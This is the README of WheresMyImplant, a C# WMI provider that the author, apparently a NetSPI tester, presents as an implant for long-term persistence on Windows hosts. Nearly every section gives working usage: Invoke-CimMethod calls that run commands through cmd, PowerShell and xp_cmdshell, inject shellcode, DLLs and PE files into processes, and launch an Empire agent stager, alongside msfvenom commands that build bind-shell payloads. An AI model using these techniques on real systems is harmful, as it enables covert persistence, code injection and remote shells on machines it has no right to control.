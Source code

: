 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

This is related to the project PowerProvider - https://github.com/0xbadjuju/PowerProvider/

### Methods

* #### RunCMD
  * **Parameters:** Command, Parameters
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * **Parameters:** Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * **Parameters:** Server, Database, UserName, Password, Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * **Parameter:** ShellCodeString, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * **Parameters:** Library, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * **Parameters:** FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * **Parameters:** PeString, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * **Parameters:** WmiClass, FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * **Parameters:** Server, StagingKey, Language
  * **Example:** <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  };


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
